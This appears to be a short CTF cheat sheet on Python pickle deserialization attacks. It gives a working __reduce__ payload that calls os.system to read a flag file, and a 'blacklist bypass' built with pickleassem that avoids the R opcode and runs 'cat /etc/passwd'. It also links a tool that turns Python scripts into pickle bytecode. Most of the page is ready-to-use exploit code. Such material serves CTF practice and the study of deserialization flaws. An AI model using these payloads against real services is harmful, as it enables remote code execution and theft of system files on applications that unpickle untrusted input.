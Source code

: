 # Pickle

### The simplest payload
```py
import pickle
import base64


class f:
    def __reduce__(self):
        import os
        return (os.system,("sleep 5 && cat /flag",))

print(f"Payload: {base64.b64encode(pickle.dumps(f()))}")
```

## Blacklist bypasses

### No R opcode

```py
# https://github.com/gousaiyang/pickleassem

import pickle
import pickletools
import base64 

from pickleassem import PickleAssembler

pa = PickleAssembler(proto=4)
pa.push_mark()
pa.util_push('cat /etc/passwd')
pa.build_inst('os', 'system')
payload = pa.assemble()
print(base64.b64encode(payload))

```

## Convert python scripts into pickle bytecode
https://github.com/splitline/Pickora

I'm a noob so that's all for now
